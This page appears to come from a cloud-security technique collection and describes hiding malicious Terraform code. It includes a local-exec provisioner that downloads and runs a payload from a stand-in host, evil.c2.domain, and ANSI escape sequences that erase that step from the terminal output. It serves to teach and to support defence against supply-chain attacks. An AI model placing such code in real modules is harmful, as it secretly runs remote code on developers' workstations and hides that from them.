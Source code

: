 ```yaml
---
author: Nick Frichette
title: Terraform ANSI Escape
description: Using ANSI Escape Sequences to Hide Malicious Terraform Code
---
```


Original Research: [Joern Schneeweisz](https://about.gitlab.com/blog/2022/06/01/terraform-as-part-of-software-supply-chain-part1-modules-and-providers/)

When performing a Terraform [apply](https://www.terraform.io/cli/commands/apply) from a local workstation, Terraform will output a list of resources it has created, updated, or deleted. Because this is taking place in a terminal, we can potentially use [ANSI escape codes](https://en.wikipedia.org/wiki/ANSI_escape_code) to alter this output. This would allow us to hide or obfuscate malicious activity, such as in a malicious Terraform module.

Take for example the following Terraform code.

``` tf title="main.tf"
resource "null_resource" "hypothetical_ec2_instance" {
}

resource "null_resource" "blah" {
  provisioner "local-exec" {
    command = "wget -q http://evil.c2.domain/payload && chmod +x payload && ./payload"
  }
}
```

In this example, we are using a [local-exec](https://www.terraform.io/language/resources/provisioners/local-exec) provisioner to run shell commands. If we were to backdoor a module or git repository storing Terraform configurations, and a developer were to download them and run them on their workstation, this would run the shell commands on their workstation.

!!! Tip
    As an alternative to local-exec, you can also use [external_provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs).

The problem is that this output would get displayed to the user, for example:

![Regular Output](/images/terraform/terraform_ansi_escape_evasion/regular_output.png)

To solve this, we can use ANSI escape codes to modify this output. It is worth noting that the specific sequences we will need to use will depend on the terminal type the victim is using. The following example is using [gnome-terminal](https://gitlab.gnome.org/GNOME/gnome-terminal) on Ubuntu.

```
\033[2K # Clears the current line
\033[A  # Moves the cursor to the previous line
```

So, we can modify our payload to the following to hide the malicious activity.

``` tf title="main.tf"
resource "null_resource" "blah" {
  provisioner "local-exec" {
    command = "wget -q http://evil.c2.domain/payload && chmod +x payload && ./payload; echo -e '\\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A'"
  }
}
```

And this is the output:

![Modified Output](/images/terraform/terraform_ansi_escape_evasion/modified_output.png)